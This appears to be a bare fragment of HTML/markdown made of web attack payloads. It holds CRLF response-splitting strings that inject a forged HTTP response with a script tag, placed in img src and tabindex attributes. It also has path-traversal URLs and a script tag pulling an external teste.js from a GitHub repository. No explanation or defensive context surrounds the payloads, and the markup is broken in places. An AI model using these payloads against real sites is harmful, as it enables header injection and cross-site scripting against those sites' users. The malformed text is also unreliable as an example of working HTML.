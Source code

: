 [Google]((../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)

<img src="../../../../\%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">XXX</a>

<img id="meu" src="" tabindex=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E></div>

<input type="text">
<button>asdf</button>
<script src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js"><script>
<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">
